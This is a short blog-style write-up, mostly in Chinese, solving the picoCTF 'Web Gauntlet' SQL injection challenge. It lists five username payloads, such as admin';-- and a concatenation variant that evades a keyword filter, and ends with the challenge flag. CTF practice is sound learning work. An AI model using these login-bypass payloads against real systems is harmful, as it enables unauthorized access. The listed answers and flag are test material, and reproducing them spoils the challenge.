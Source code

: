 ```yaml
---
layout: post
title:  "picoCTF - Web Gauntlet"
description: 
date:   2023-12-29 10:10:00 +0800
# last_modified_at:
categories: [CTF, picoCTF-Web Exploitation]
author: d13
tags: [ctf, web exploitation, picoctf]
---
```


# Question

[https://play.picoctf.org/practice/challenge/88](https://play.picoctf.org/practice/challenge/88)

# Solution


題目就是在考SQL Injection而已，filter.php那個連結會提示他過濾了那些字。但我很多題都送一樣的sql進去，反正能過關就好，也是因為我會的指令也不多就是了...

以下附上我每題的input，通通都是加在username那一欄，password隨便打：

````markdown
1. `admin';--`
2. `admin';0x2d2d`
3. `admin';0x2d2d`
4. `ad'||'min';0x2d2d`
5. `ad'||'min';0x2d2d`

````

# Flag

picoCTF{y0u_m4d3_1t_16f769e719ab9d3e310fd13dc1262ee1}